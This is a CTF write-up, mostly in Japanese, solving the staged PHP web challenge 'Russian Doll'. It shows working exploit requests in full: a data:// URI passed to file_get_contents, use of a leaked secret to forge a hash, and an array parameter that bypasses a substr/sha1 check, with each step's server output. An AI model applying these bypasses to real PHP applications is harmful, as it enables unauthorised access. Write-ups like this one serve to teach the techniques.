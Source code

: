 # Russian Doll:Web:15pts
This doll is tricky, can you pass all the stages and get the flag?  
I think you can!  
In Scope: http://web02.ctf313.com/  
Hack the web app only. You have the source code, no need to brute force or spam anything.  
Server and Infrastructure are out of scope and will result in an automatic ban and public shaming for being a 💩.  

# Solution
URLにアクセスするとphpソースが表示される。  
[BANGERS!](../BANGERS!)と同じく、段階的にロックを突破するようだ。  
Web02 Challenge "Russian Doll"  
[site.png](site/site.png)  
最初は以下の部分に注目する。  
```php
// Stage 1
$text = $_GET['text'];
if(@file_get_contents($text)!=="Привет хакер"){
        die("You must speak my language a different way!");
}

echo "Stage 1 is complete! You unlocked the key: " . $secretkey . "\n";
```
`file_get_contents`を呼んでいるので、データURIスキーム`data://text/plain,Привет хакер`を渡してやればよい。  
以下のようにクエリを設定した。  
```bash
$ wget -q -O - "http://web02.ctf313.com/?text=data://text/plain,Привет хакер"
Stage 1 is complete! You unlocked the key: IThinkICanIThinkICanIThinkICan
хаха, это строго не сработает
```
次に以下の部分に注目する。  
```php
// Stage 2
$key1 = $_GET['key1'];
$keyId = 1337;

if (intval($key1) !== $keyId || $key1 === $keyId) {
    die("хаха, это строго не сработает");
}

echo "Stage 2 is complete! Keep Going!\n";
```
1337を入力したらよい。  
以下のようにクエリを設定した。  
```bash
$ wget -q -O - "http://web02.ctf313.com/?text=data://text/plain,Привет хакер&key1=1337"
Stage 1 is complete! You unlocked the key: IThinkICanIThinkICanIThinkICan
Stage 2 is complete! Keep Going!
Ваш токен мертв, как и эта попытка
```
次に以下の部分に注目する。  
旧Stage 3は作問ミスらしい(数時間溶けた)。  
```php
// Stage 3
$hash = $_GET['hash'];
$token = intval($_GET['token']);

if(substr(hash("sha256", $keyId + $token . $secretkey), 5, 25) == $hash) {
    $keyId = $_GET['keyId'];
} else {
    die("Ваш токен мертв, как и эта попытка");
}

echo "Stage 3 is complete! You defeated death, for now...\n";
```
入力に`$secretkey`を付けたsha256ハッシュ値の、一部を当てればよい。  
`$secretkey`はStage 1で`IThinkICanIThinkICanIThinkICan`、`$keyId`はStage 2で`1337`と分かっている。  
以下のようにクエリを設定した。  
```bash
$ php -a
php > echo substr(hash("sha256", "1337" + "0" . "IThinkICanIThinkICanIThinkICan"), 5, 25);
bb6bcf1419dcdde482ff13f0f
php > quit
$ wget -q -O - "http://web02.ctf313.com/?text=data://text/plain,Привет хакер&key1=1337&token=0&hash=bb6bcf1419dcdde482ff13f0f"
Stage 1 is complete! You unlocked the key: IThinkICanIThinkICanIThinkICan
Stage 2 is complete! Keep Going!
Stage 3 is complete! You defeated death, for now...
ты не можешь сдаться сейчас!
```
最後に以下の部分に注目する。  
```php
// Final Stage
$key2 = 69;
if(substr($keyId, $key2) !== sha1($keyId)){
    die("ты не можешь сдаться сейчас!");
}

// Final Stage
echo "Final stage is complete Where da flag homie? 💩\n";
~~~
header("Content-Type: " . $flag);
```
配列を渡すと`substr`、`sha1`共にNULLが返ってくるため比較部分をバイパスできる。  
Content-Typeに隠されているようなので表示するオプションをつける。  
以下のようにクエリを設定した。  
```bash
$ wget -q -O - "http://web02.ctf313.com/?text=data://text/plain,Привет хакер&key1=1337&token=0&hash=bb6bcf1419dcdde482ff13f0f&keyId[]=a" --server-response
  HTTP/1.1 200 OK
  Date: Fri, 04 Dec 2020 16:08:04 GMT
  Server: Apache/2.4.41 (Ubuntu)
  Content-Length: 209
  Keep-Alive: timeout=5, max=100
  Connection: Keep-Alive
  Content-Type: flag{17H1nk1c4N17h1nK1c4N}
Stage 1 is complete! You unlocked the key: IThinkICanIThinkICanIThinkICan
Stage 2 is complete! Keep Going!
Stage 3 is complete! You defeated death, for now...
Final stage is complete Where da flag homie? 💩
```
flagが得られた。  

## flag{17H1nk1c4N17h1nK1c4N}